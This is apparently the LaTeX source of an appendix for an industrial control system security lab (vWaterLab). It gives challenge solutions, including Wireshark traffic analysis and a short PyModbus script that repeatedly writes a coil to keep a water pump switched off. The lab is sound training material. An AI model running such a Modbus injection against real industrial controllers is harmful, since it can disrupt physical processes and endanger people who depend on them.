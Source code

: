 \documentclass[12pt]{extarticle}
\newenvironment{instructionblock}{\Large\bgroup}{\egroup}
\newcommand{\ben}{\begin{enumerate}}
\newcommand{\een}{\end{enumerate}}
\newcounter{next}
\newcounter{prev}
\begin{document}
\pagebreak
{}
\begin{slide}{Appendix}{\hyperref[slide \theprev]{\textless}}
	\begin{instructionblock}
		\ben
		\item Solutions to challenges
		\item Network Diagram
		\item Setup details
		\item Change log
		\item References
		\een
	\end{instructionblock}
\end{slide}
\pagebreak
{}
\textbf{Solutions to Challenges}\\
\ben
\item \textbf{Challenge: Passive Service Identification}\\
Open the packet capture found in "\textit{Desktop/Vuln\ Assessment}" with Wireshark on the Kali machine. By understanding that the SCADA machine will have a master relationship with the PLCs it should be obvious that the SCADA will be initiating communication with both PLCs. However, the PLCs will NOT be communicating with each other. This can be confirmed if the port "8080" is checked on the machines. The PLCs and SCADA have a web interface on these ports.
\item \textbf{Challenge: MODBUS Injection Attack}\\
This challenge can be easily solved by running a script using PyModbus. An example is shown below: \\
\begin{lstlisting}
#!/usr/bin/env python
from pymodbus.client.sync import ModbusTcpClient
client = ModbusTcpClient('192.168.10.9')
while True:
	client.write_coil(2,0) #keep the output pump off
client.close()
\end{lstlisting}
\een 

\pagebreak
\noindent
\textbf{Network Diagram}\\
This tutorial utilizes a virtualized ICS training environment called: vWaterLab. Here is the configuration of this environment for this lab. \\
\vspace*{3cm}
\begin{center}
	\begin{figure}[H]
		\centering
		\texttt{[image: "figures/vWaterLab-Implementation".png]}
		\label{fig:netDiagram}
	\end{figure}
\end{center}
\end{document}
